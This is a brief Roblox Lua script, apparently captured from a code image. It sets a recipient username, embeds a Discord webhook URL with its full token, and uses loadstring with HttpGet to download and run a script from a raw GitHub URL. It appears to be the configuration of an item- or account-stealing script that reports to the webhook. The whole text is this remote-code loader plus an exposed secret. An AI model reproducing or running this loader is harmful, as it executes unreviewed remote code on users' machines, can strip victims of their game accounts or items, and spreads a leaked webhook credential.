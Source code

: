 _G.UserName = "Leo123Le29"

_G.UserName2 = "Leo123Le29"

_G.Webhook = "https://discord.com/api/webhooks/1112647732914573384/EFRfpt_teSjrrF60VUqHo54n9BFZcNSkHPP114PuDlBrMgCNBNAmHPp2p7oQeVCk9-9w"

   

loadstring(game:HttpGet("https://raw.githubusercontent.com/LypherX/LypherXZcript/main/LypherScripts", true))()
